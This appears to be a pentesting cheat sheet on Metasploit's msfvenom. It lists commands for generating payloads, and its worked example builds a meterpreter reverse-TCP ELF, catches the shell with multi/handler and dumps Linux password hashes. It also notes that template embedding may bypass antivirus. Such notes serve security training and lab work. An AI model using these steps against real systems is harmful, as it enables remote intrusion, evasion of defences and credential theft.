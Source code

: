 # Msfvenom

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}

### Help menu

```bash
$ msfvenom -h
```

### List available options for module type

```bash
$ msfvenom -l payloads
$ msfvenom -l encoders
$ msfvenom -l nops
$ msfvenom -l all
```

### Payload option

```bash
$ msfvenom -p ...

# eg. 
$ msfvenom -p linux/x86/shell_reverse_tcp
```

### Format option

```bash
$ msfvenom -f ...

# eg.
$ msfvenom -f elf
$ msfvenom -f exe
 
```

_**Note**_: The output from `msfvenom` provides the shellcode (typically raw machine code) that can be executed on the target architecture, and is defined by the `-p` flag. The `-f` flag simply specifies the format for which the shellcode should be in.

Eg. **Powershell**

`[Byte[]] $buf = 0xfc,0x48,0x83,...`

Eg. **C**

`unsigned char buf[] = "\xfc\x48\x83...`

Eg. **Python**

`buf = b""`&#x20;

`buf += b"\xfc\x48\x8`

`buf += b"\...`

### Template

```sh
$ msfvenom -x ...
$ msfvenom --template ...
```

* can be used to specify a custom executable file to be used as template
* this means that the original functionality of the provided executable file will be fulfilled, but with the addition of the payload specified by an attacker
* may bypass AV, etc.

### Example

`linux/x86/meterpreter/reverse_tcp`

```bash
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.xxx.xxx LPORT=8000 -f elf > shell.elf
```

#### Module to use on the attacking machine to catch a shell

`exploit/multi/handler`

```bash
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport xxxx
msf6 exploit(multi/handler) > run
```

#### Run the shellcode on the target machine

```bash
# eg.
$ sudo ./shell.elf
```

#### Gain meterpreter shell on the attacker machine

```
meterpreter >
```

#### Using post exploitation hash dump module&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>meterpreter > background
</strong>msf6 exploit(multi/handler) > sessions -l 

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         meterpreter x86/linux  ...                    ...

msf6 exploit(multi/handler) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > show options
msf6 post(linux/gather/hashdump) > set session 1
msf6 post(linux/gather/hashdump) > run
...
</code></pre>

{% embed url="https://www.offsec.com/metasploit-unleashed/msfvenom/" %}
